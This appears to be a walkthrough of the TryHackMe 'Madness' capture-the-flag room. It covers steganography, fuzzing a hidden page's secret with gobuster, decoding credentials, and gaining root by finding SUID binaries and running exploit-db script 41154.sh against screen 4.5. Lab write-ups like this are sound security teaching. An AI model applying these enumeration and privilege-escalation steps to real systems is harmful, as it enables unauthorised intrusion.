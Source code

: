 ```yaml
---

title: Walkthrough - Madness
published: true
---
```


Security, Steganography, Web, Challenge. Will you be consumed by madness?

![0xskar](/assets/madness01.png)

[https://tryhackme.com/room/madness](https://tryhackme.com/room/madness)

* * *

## Notes

2 ports, 22 ssh and 80 http server.

Inspect source and find comment

```
<img src="thm.jpg" class="floating_element"/>
<!-- They will never find me-->
        <span class="floating_element">
```

- ``wget http://10.10.205.63/thm.jpg``
- ``hexeditor`` shows this jpg is set as a png. lets try to edit the file signature to be able to read it.
- using JFIF file signature header (``FF D8 FF E0 00 10 4A 46 49 46 00 01``) with ``hexeditor`` we can now read the file in ``ristretto``

![0xskar](/assets/madness02.png)

- found hidden directory ``/th1s_1s_h1dd3n``
- inspecting the source

```
<div class="main">
<h2>Welcome! I have been expecting you!</h2>
<p>To obtain my identity you need to guess my secret! </p>
<!-- It's between 0-99 but I don't think anyone will look here-->

<p>Secret Entered: </p>

<p>That is wrong! Get outta here!</p>
</div>
```

We need a secret to get access, so lets create a simple python script to make a list of 0-99. 

- ``numbers.py``

```python
for number in range(-1, 100):
	print(number)
```

- ``python3 numbers.py > numbers.txt``
- then fuzz ``gobuster fuzz -u http://10.10.205.63/th1s_1s_h1dd3n/?secret=FUZZ -w numbers.txt --no-error``
- one has a longer length ``http://10.10.205.63/th1s_1s_h1dd3n/?secret=73``
- where we get a new clue

```
<p>Secret Entered: 73</p>

<p>Urgh, you got it right! But I won't tell you who I am! y2RPJ4QaPF!B</p>
```

``hint - There's something ROTten about this guys name!``

Finally after hours of trying to decipher the above code, it turded out to be a password for the file hidden in the origional JPG that we found.

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Madness]
└─$ stegseek -sf thm-edited.jpg -wl secret.txt                               
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "y2RPJ4QaPF!B"
[i] Original filename: "hidden.txt".
[i] Extracting to "thm-edited.jpg.out".
```

- ``cat thm-edited.jpg.out``

```
Fine you found the password! 

Here's a username 

wbxre

I didn't say I would make it easy for you!
```

- and decrupting rot-10 we get the username ``joker``

- the header pic of the cheshire car smile contains another hidden text file..cheaters.

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Madness]
└─$ cat 5iW7kC8.jpg.out 
I didn't think you'd find me! Congratulations!

Here take my password

*axA&GF8dP
```

* * * 

## What is the user flag?

![0xskar](/assets/madness03.png)

* * * 

## What is the root flag?

Potential Escalation Vectors

- ``find / -perm -u=s -type f 2>/dev/null``
- ``searchsploit screen 4.5``
- ``cp /usr/share/exploitdb/exploits/linux/local/41154.sh .``
- wget it over and ``./41154.sh`` to get root

![0xskar](/assets/madness04.png)

* * * 

